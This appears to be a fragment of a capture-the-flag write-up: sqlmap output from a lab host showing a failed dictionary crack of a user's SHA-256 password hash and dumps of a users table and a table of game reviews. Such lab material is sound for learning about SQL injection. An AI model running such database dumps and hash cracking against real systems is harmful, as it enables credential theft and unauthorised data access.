 ```shell
[09:13:48] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[09:13:50] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[09:13:50] [INFO] starting 6 processes 
[09:13:56] [WARNING] no clear password(s) found                                                                                                             
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[09:13:56] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.116.163/dump/db/users.csv'
[09:13:56] [INFO] fetching columns for table 'post' in database 'db'
[09:13:56] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[09:13:56] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.116.163/dump/db/post.csv'
[09:13:56] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.116.163'

[*] ending @ 09:13:56 /2023-05-13/
```
